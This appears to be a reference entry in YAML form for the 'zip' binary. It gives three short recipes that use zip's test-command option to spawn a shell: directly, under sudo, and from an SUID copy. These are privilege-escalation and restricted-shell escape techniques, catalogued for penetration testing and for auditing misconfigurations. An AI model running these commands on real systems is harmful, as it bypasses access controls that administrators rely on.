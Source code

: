 ```yaml
---
name: zip
functions:
  shell:
    - code: |
        TF=$(mktemp -u)
        zip $TF /etc/hosts -T -TT 'sh #'
        rm $TF
  sudo:
    - code: |
        TF=$(mktemp -u)
        sudo zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
  limited-suid:
    - code: |
        TF=$(mktemp -u)
        ./zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
---
```

